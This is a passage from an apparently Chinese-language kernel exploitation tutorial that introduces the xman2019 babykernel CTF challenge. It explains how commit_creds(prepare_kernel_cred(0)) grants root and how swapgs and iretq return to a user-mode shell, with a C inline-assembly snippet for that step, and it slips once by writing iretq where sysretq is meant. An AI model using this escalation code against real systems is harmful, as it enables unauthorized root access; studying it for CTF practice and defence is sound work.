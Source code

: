 当后续进行了一系列特权操作提升权限 `如: commit_creds(prepare_kernel_cred(0))` 后，  
即可手动将存储的 ss、sp、rflags、cs push 到栈上，并且设置 rip 返回地址，最终调用 iretq

```c
void restore_stat()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}
```

当调用 swapgs 时，内核通过 swapgs 将用户态 GS 基址保存到 MSR，并加载内核的 GS 基址. 一个正常业务中的 syscall 的 gs 切换逻辑如下所示

```asm
syscall						//触发某个系统调用
↓
swapgs						//将用户态 GS 基址保存到 MSR，并加载内核的 GS 基址
mov %rsp, gs:[cpu_stack]	//使用内核 GS 访问内核堆栈
[该系统调用主逻辑]
swapgs						//恢复用户 GS
sysretq						//返回用户态
```

当调用 iretq 时，栈结构如下所示. iretq 按如下结构恢复各个寄存器的值并返回到用户态，结束. 

为什么 syscall 不使用 iretq 而使用 sysretq？  
因为 int 0x80、iretq 用于较为复杂的中断、异常或任务切换的返回，是一种需要从堆栈恢复上下文的切换.  
而 syscall、iretq 是专门为快速系统调用设计的指令，比 int 0x80 和 iretq 更高效. syscall、sysretq 不涉及堆栈切换(RSP 和 SS) 

```stack
rsp:   rip    的值
       cs     的值
       rflags 的值
       sp     的值
       ss     的值
```

那么 `commit_creds(prepare_kernel_cred(0))` 到底干了什么？`prepare_kernel_cred(0)` 这个函数会使我们分配一个新的cred结构(uid=0, gid=0等)，再使用 `commit_creds` 并且把它应用到调用进程后，此时我们就是root权限了. `commit_creds` 和 `prapare_kernel_cred` 都是内核函数，一般可以通过 `cat /proc/kallsyms` 查看他们的地址，但是必须需要root权限

### [](#header-3)题目 xman2019 babykernel

题目下载：[babykernel.zip](/image/kernelpwn/babykernel.zip)

首先启动该机器，在根目录下发现 flag，其权限为 -r--------，只有 root 用户能读取
